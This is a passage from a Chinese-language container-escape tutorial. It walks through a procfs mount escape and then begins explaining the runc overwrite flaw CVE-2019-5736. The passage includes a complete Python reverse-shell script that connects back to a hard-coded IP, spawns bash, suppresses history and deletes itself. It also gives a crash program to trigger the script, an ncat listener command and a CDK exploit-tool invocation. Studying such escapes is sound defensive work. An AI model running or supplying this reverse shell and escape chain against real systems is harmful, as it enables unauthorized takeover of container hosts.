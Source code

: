 |     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```python<br>cat >/tmp/.x.py << EOF<br>#!/usr/bin/python<br>import os<br>import pty<br>import socket<br>lhost = "101.32.10.105"<br>lport = 9999<br>def main():<br>    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)<br>    s.connect((lhost, lport))<br>    os.dup2(s.fileno(), 0)<br>    os.dup2(s.fileno(), 1)<br>    os.dup2(s.fileno(), 2)<br>    os.putenv("HISTFILE", '/dev/null')<br>    pty.spawn("/bin/bash")<br>    os.remove('/tmp/.x.py')<br>    s.close()<br>if __name__ == "__main__":<br>    main()<br>EOF<br><br>chmod +x /tmp/.x.py<br>``` |

最后，在容器内运行一个可以崩溃的程序即可，例如：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```c<br>#include <stdio.h><br>int main(void)<br>{<br>    int *a = NULL;<br>    *a = 1;<br>    return 0;<br>}<br>``` |

容器内若没有编译器，可以先在其他机器上编译好后放入容器中。

完成后，在其他机器上开启 shell 监听：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ncat -lvnp 9999<br>``` |

接着在容器内执行上述编译好的崩溃程序，即可获得反弹 shell。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111121638548.png-water_print](assets/1699410413-2110fa940636565edcf39439c2978a46 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111121638548.png-water_print")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111121638511.png-water_print](assets/1699410413-25118e50d20b88020cb21194f5053cb3 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111121638511.png-water_print")

利用 CDK 工具：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>./cdk run mount-procfs /mnt/host_proc "touch /tmp/exp-success"<br>``` |

## [](#4-%E7%9B%B8%E5%85%B3%E7%A8%8B%E5%BA%8F%E6%BC%8F%E6%B4%9E%E5%AF%BC%E8%87%B4%E7%9A%84%E5%AE%B9%E5%99%A8%E9%80%83%E9%80%B8)4 相关程序漏洞导致的容器逃逸

### [](#41-cve-2019-5736)4.1 CVE-2019-5736

影响版本：`Docker version <= 18.09.2` & `RunC version <= 1.0-rc6`

#### [](#411-%E5%8E%9F%E7%90%86)4.1.1 原理

CVE-2019-5736 一个能够覆盖宿主机 runc 程序的容器逃逸漏洞。

在执行功能类似于 `docker exec` 等命令时，底层实际上是容器运行时在操作。例如 runC，相应地，`runc exec` 命令会被执行。它的最终效果是在容器内部执行用户指定的程序。进一步讲，就是在容器的各种命名空间内，受到各种限制（如 Cgroups）的情况下，启动一个进程。除此以外，这个操作与在宿主机上执行一个程序并无二致。

执行过程大体如下：runC 启动并加入到容器的命名空间，接着以自身 (`/proc/self/` `exe`）为范本启动一个子进程，最后通过 exec 系统调用执行用户指定的二进制程序。

proc 伪文件系统，即 /proc。关于这个概念，这里我们主要关注 proc 下的两类文件：

-   `/proc/[PID]/exe`：它是一种特殊的符号链接，又被称为 `magic links`，指向进程自身 对应的本地程序文件（例如我们执行 `ls /proc/[ls-PID]/exe` 就指向 `/bin/ls`)。
-   `/proc/[PID]/fd/`：这个目录下包含了进程打开的所有文件描述符。

`/proc/[PID]/exe` 的特殊之处在于，当打开这个文件时，在权限检查通过的情况下，内核将 直接返回一个指向该文件的描述符，而非按照传统的打开方式做路径解析和文件查找。这样 一来，它实际上绕过了 mnt 命名空间及 chroot 机制对一个进程能够访问到的文件路径的限制。
